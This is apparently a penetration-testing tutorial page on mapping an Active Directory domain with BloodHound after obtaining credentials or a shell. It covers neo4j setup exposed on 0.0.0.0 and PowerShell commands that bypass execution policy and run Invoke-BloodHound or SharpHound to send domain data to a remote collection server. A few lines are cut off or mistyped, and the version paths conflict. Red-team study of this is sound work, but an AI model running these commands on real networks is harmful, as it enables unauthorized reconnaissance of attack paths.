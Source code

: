 ### Mapping AD with BloodHound

One of the glorious design features of AD is that everyone in the domain needs to know where everything is. So when you get user credentials and/or a shell, you can basically map the entire domain without breaking any rules. Any user can query Active Directory for computers, domain controllers, groups and sessions.

Now we can use this brilliant feature to collect a ton of information and create a cool GUI map of the entire AD which can be queried using BloodHound. Do the following:

* [Install neo4j](https://neo4j.com/developer/kb/how-do-i-enable-remote-https-access-with-neo4j-30x/) [Community Edition](https://neo4j.com/download/community-edition/) manually from their [website](https://neo4j.com/download/?ref=hro) , not through apt.
* [http://neo4j.com/download/other-releases/\#releases](http://neo4j.com/download/other-releases/#releases)
* [A guide on installing can be found here](https://stealingthe.network/quick-guide-to-installing-bloodhound-in-kali-rolling/)
* Run neo4j from `/opt/neo4j-community-3.3.0/bin/neo4j start`
* Navigate to localhost:7474 in your browser.
* Set a new password for the neo4j account.
* Edit neo4j.conf and set the following parameters to make any host be able to access the database.
  ```
  dbms.connector.http.enabled=true
  dbms.connector.http.listen_address=0.0.0.0:7474
  ```
* Restart neo4j with  `/opt/neo4j-community-3.1.1/bin/neo4j restart`
* Access neo4j in the browser at `http://0.0.0.0:7474/browser/`
* Install BloodHound according to instructions on the [Github page](https://github.com/BloodHoundAD/BloodHound/wiki/Getting-started)

* If on a Mac, Java SDK must be version 8 and not 9 \(neo4j not suppported\). So 

* Launch BloodHound and log in to the neo4j database with credentials from before

The old method:

```
powershell -exec bypass
upload /path/bloodhound.ps1
Import-Module ./BloodHound.ps1
Invoke-BloodHound -URI http://SERVER:7474/ -UserPass "user:pass"
```

The new method:

```
scriptimport /path/to/powershell-script.ps1
scrimptcmd Invoke-BloodHound -URI http://SERVER:7474/ -UserPass "user:pass"
```

You should now see data being populated into the database and you can play with BloodHound to create really some really cool maps. You can also perform queries to show the shortest path to DA, etc.

Another method:

```
Powershell -exec bypass
Import-module SharpHound.ps1
Invoke-BloodHound -CollectionMethod ACL,ObjectProps,Default -CompressData –SkipPing
```



